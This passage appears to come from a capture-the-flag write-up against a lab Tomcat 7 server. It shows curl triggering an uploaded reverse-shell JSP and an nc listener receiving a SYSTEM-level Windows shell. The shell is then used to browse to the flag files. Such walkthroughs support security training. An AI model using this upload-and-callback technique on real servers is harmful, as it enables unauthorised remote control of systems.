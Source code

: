 ### Upload and Run

Now upload through the manager application, and then curl the page at
`http://[host]/[war name]/[jsp]`:



    root@kali# curl http://10.10.10.95:8080/rev_shell-9002/ppaejmsg.jsp





    root@kali# nc -lnvp 9002
    listening on [any] 9002 ...
    connect to [10.10.15.83] from (UNKNOWN) [10.10.10.95] 49193
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.

    C:\apache-tomcat-7.0.88>whoami
    whoami
    nt authority\system



## Flags

With a shell as system, it's easy to get both flags:



    C:\Users\Administrator\Desktop>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is FC2B-E489

     Directory of C:\Users\Administrator\Desktop

    06/19/2018  07:09 AM    <DIR>          .
    06/19/2018  07:09 AM    <DIR>          ..
    06/19/2018  07:09 AM    <DIR>          flags
                   0 File(s)              0 bytes
                   3 Dir(s)  27,450,302,464 bytes free

    C:\Users\Administrator\Desktop>cd flags
    cd flags

    C:\Users\Administrator\Desktop\flags>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is FC2B-E489

     Directory of C:\Users\Administrator\Desktop\flags

    06/19/2018  07:09 AM    <DIR>          .
    06/19/2018  07:09 AM    <DIR>          ..
    06/19/2018  07:11 AM                88 2 for the price of 1.txt
                   1 File(s)             88 bytes
                   2 Dir(s)  27,450,171,392 bytes free
